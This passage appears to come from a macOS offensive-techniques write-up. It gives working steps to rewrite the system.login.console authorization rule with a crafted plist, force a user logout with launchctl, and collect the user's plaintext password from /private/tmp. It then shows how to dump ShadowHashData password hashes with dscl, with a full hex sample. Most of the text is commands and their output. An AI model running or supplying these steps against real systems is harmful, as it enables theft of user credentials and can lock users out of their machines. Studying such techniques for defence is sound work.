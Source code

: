 ```
	</array>
	<key>modified</key>
	<real>719346785.95490503</real>
	<key>shared</key>
	<true/>
	<key>tries</key>
	<integer>10000</integer>
	<key>version</key>
	<integer>11</integer>
</dict>
</plist>
```

update the authorization database.

```bash
security authorizationdb write system.login.console < poc.plist      
YES (0)
```

you can force logout the user via the following command.

```bash
sudo launchctl bootout user/$(id -u <username>)
```

when they log back in, the code will have executed and the password will be at `/private/tmp/password.txt`!

just some notes on this method, if you're experimenting: modifying the login process is quite risky, and potentially dangerous. if you're not sure what you're doing, you could prevent anybody from logging in (including yourself) via the login screen.

# credential access via ShadowHashData

`ShadowHashData` is a mechanism in macOS used to store hashed password data for user accounts. it's stored as binary `.plist` files for each user account in `/var/db/dslocal/nodes/Default/users/`. 

you can extract it via `default` or `dscl` utilities.

```bash
$ sudo dscl . read /Users/$USERNAME ShadowHashData

dsAttrTypeNative:ShadowHashData:
 62706c69 73743030 d2010203 0a5f101e 5352502d 52464335 3035342d 34303936 2d534841 3531322d 50424b44 46325f10 1453414c 5445442d 53484135 31322d50 424b4446 32d30405 06070809 58766572 69666965 72547361 6c745a69 74657261 74696f6e 734f1102 004350d6 29ecef1f 122a15ae ee030fa6 fa552525 6994b148 c9bdb3e0 bb652c88 0b82b334 4886ac55 9f04e045 bb494aea e73a5914 b68eb607 fd812f54 1c6ce2f5 c773be52 77c471bc 89df7ebd 0a0298b9 aa407330 e92816bf 732c10b0 09922f04 628fe872 b1b37778 0bd8221c d3487bee 42cf6a15 67802d13 4db26656 d0f2c17f 7c3ed954 c9fe56b8 615553a7 931ec655 4f526f5c c4541874 795b9b77 ce69d038 3380f493 c49d84ce 6e3f5d1c 0bb3df13 8bb379fb 99473936 817ba675 0409b97d 7026ab75 3778473c a51926a2 b1745b72 28285997 524e7ef0 4821f41e f6e1979f 88c0a2c1 103773d4 cc69b5e5 0515be57 7c901e6b 3abae24f 7716b146 c3763881 d1c41f79 3dee9577 3f66f969 db2ab6bb 331bd518 438e1d56 1e314fa1 c78ea486 ff7f09db 5bb94565 5406ff15 597396cb 6b4832bf 2baab2e8 3f9ed76f e6c0e11a 130f5403 59c2b47c 33b78f4f 0b969805 47ff5030 149a94e7 37fcf4a4 1d6e1837 d31e26ff 6c4de92f 5c0bce93 d9498299 a0d15668 2557da09 748c24a0 c20bc995 8b119c85 92f8c319 f17ac5c8 6631b9d8 11803fb6 ca2af51b 3ab52af7 354f61e1 87dcc684 57259217 32343cdd 200ec9bd fdb38f6a 3ffb135c 3d095b3d e40ac620 a3975056 ca8ee84a 175198b0 8c471e54 d2637140 eaaf40a8 673c8f70 b5fc4033 77a46b8b 0c65a69f 3817b8de fa028a7c 146705d6 1000652c dd4a6dce bf0d7aaf 2a4f1020 ba98c293 c1461cf9 c4df9952 569b14b9 1ff176e0 eddaee7c a4583f2d 097287c1 1200022e 09d30b05 060c0d09 57656e74 726f7079 4f1080e9 a36c9b06 438acd06 8982b946 ffa90aac e01574e3 cf98628c 4348784e 1630f0de 9e018c55 77d5d376 cc335136 57d3a593 e1fa565c 53b4a3fd 7dc1599e 2e60b3e1 f815a1d2 612f86cf 6e26d143 a0f202cc 5c0182a9 ea973682 cfd7859e 82ebc85b abdc8be1 845d26ce bb4a3594 f1654b86 e8476c4e 7d566916 0ae8c052 3491a94f 10205a83 6c31ba4a a34077d9 67368267 d314ddfa 2808e96e 6b58119a 26df3f67 c8c40008 000d002e 0045004c 0055005a 00650269 028c0291 029802a0 03230000 00000000 02010000 00000000 000e0000 00000000 00000000 00000000 0346
```
